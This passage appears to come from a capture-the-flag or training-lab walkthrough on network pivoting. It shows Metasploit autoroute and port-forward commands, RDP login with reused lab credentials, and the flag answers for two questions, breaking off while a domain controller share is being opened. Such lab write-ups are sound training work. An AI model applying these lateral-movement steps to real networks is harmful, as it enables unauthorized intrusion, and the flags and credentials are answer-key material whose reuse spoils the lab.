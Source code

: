 **Result:** Host `172.16.6.25` is alive

#### Step 2: RDP to Discovered Host
Using credentials discovered in Question 5:
- **Username:** `vfrank`
- **Password:** `Imply wet Unmasked!`

**Method 1: From Windows RDP session (172.16.5.35):**
1. Open **Run** dialog (Windows + R)
2. Type: `mstsc`
3. Enter connection details:
   - **Computer:** `172.16.6.25`
   - **Username:** `vfrank`
   - **Password:** `Imply wet Unmasked!`

**Method 2: Via Kali through existing pivot:**
```bash
# Add route for new network
sessions -i 2
run autoroute -s 172.16.6.0/24

# Port forward for RDP
portfwd add -l 23389 -p 3389 -r 172.16.6.25
bg

# Connect from Kali
xfreerdp /v:127.0.0.1:23389 /u:vfrank /p:'Imply wet Unmasked!'
```

#### Step 3: Retrieve Flag
Once connected to 172.16.6.25:
1. Open **Command Prompt** (cmd)
2. Read flag file:
```cmd
type C:\Flag.txt
```

**Expected Output:**
```
N3tw0rk-H0pp1ng-f0R-FuN
```

**Answer:** `N3tw0rk-H0pp1ng-f0R-FuN`

---

#### Question 7: Access Domain Controller flag
**Task:** Submit the contents of C:\Flag.txt located on the Domain Controller.

### Solution: Network Share Access

#### Step 1: Access Network Share
Using the same RDP connection to 172.16.6.25 (vfrank user):

1. **Open File Explorer** (Windows + E)
2. **Navigate to "This PC"**
3. **Look for mapped network drives**
4. **Double-click on "AutomateDCAdmin (Z:)" drive**

